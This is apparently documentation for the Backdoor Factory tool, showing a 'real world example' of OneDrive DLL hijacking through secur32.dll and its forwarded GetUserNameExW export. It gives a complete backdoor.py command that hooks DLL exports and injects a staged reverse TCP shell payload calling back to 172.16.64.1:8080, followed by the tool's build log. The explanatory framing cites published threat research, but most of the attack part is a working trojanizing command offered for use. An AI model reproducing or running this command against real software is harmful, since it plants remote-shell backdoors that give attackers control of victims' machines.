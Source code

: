 
### Real World Example

I've known about this OneDrive DLL hijacking issue for a long time. Before this [report](https://www.bitdefender.com/files/News/CaseStudies/study/424/Bitdefender-PR-Whitepaper-SLOneDriveCyberJack-creat6318-en-EN.pdf) from BitDefender. I didn't report it, as Microsoft wouldn't consider this instance of DLL hijacking a vulnerability since it doesn't cross a security boundary ([REF](https://msrc.microsoft.com/blog/2018/04/triaging-a-dll-planting-vulnerability/)). Also by the fact that this DLL hijacking bug still exists. 

According to the report, the attackers targeted DLLs loaded in `%LOCALAPPDATA%\Microsoft\OneDrive\` and they targeted secur32.dll via the GetUserNameExW exported API. In short, they patched secure32.dll export so that it returns 1. And the application worked as expected. The GetUserNameExW API was an forwarded export, meaning the API was not contained in secure32, in fact it is located in sspicli.dll.  Export forwarding abuse is not new, it's been abused [before](https://news.sophos.com/en-us/2023/07/26/into-the-tank-with-nitrogen/). 

When you load OneDrive in procmon, you can see many DLLs that are not found in the `%LOCALAPPDATA%` directory. So why did they select secur32.dll? They probably did a fair bit of testing to determine that patching that API did not affect program execution. However, when you decided to create a personal vault with OneDrive, it will move all of its application files from `%LOCALAPPDATA%` to `c:\ProgramData` and `c:\program files`, which require admin rights to write to. You can no longer hijack OneDrive with secur32.dll. 

Before the upgrade, many DLLs can be hijacked and OneDrive is enabled by default. As BDF does not support export forwarded APIs (at this time), we'll use a different DLL to demonstrate how BDF could be used in this scenario. For example, when targeting the secur32.dll GetUserNameExW export, BDF will fail as it is a forwarded export. BDF will tell you this and list the available exports that can be hooked. As the output is a comma separated list, you can use these with the `EXPORTS` option to specify the export to hook and remove exports that are not needed. 

```bash

./backdoor.py -f tests/secur32.dll PATCH_METHOD=hook_dll_exports \
MODE=dll_loader_single_cave \
PAYLOAD=text_loader_dll_reverse_tcp_staged_threaded \
HOST=172.16.64.1 PORT=8080 EXPORTS=GetUserNameExW -Z 
^(;,;)^ - nice to see you
         Author:    Joshua Pitts
         Email:     the.midnite.runr[-at ]gmail<d o-t>com
         Twitter:   @ausernamedjosh
         
         Version:   5.0.0
         
2023-12-22 14:22:07,INFO,pe_parse.py,[*] Gathering file info
2023-12-22 14:22:07,INFO,hook_dll_exports.py,[*] Selected Payload: text_loader_dll_reverse_tcp_staged_threaded
2023-12-22 14:22:07,INFO,hook_dll_exports.py,[*] Selected Mode: dll_loader_single_cave
2023-12-22 14:22:07,INFO,core.py,[*] Checking for APIs
2023-12-22 14:22:07,INFO,core.py,[*] Parsing data directories
2023-12-22 14:22:07,INFO,core.py,[*] Creating new IAT in new section IDT_IN_CAVE is False
2023-12-22 14:22:07,INFO,core.py,[*] Adding New Section for updated Import Table
2023-12-22 14:22:07,INFO,core.py,[!] Adding b'CreateThread' Thunk in new IAT
2023-12-22 14:22:07,INFO,core.py,[!] Adding b'LoadLibraryA' Thunk in new IAT
2023-12-22 14:22:07,INFO,core.py,[!] Adding b'VirtualAlloc' Thunk in new IAT
2023-12-22 14:22:07,INFO,core.py,Building imports
2023-12-22 14:22:07,ERROR,pe_parse.py,No DISK_OFFSET provided using 0
2023-12-22 14:22:07,INFO,pe_parse.py,[*] Gathering file info
2023-12-22 14:22:07,INFO,core.py,[*] Checking updated IAT for thunks
2023-12-22 14:22:07,INFO,core.py,[*] Checking for APIs
2023-12-22 14:22:07,INFO,core.py,[*] Parsing data directories
2023-12-22 14:22:07,INFO,core.py,[*] The APIs have been located in the file -- or created :D
2023-12-22 14:22:07,INFO,text_loader_dll_reverse_tcp_staged_threaded.py,CreateThread stub len: 0x43, 67
2023-12-22 14:22:07,INFO,dll_loader_single_cave.py,txt_vrt_slck_loc: 6442466055, hex: 0x180003b07
2023-12-22 14:22:07,INFO,dll_loader_single_cave.py,Loader len: 0xcf, 207
```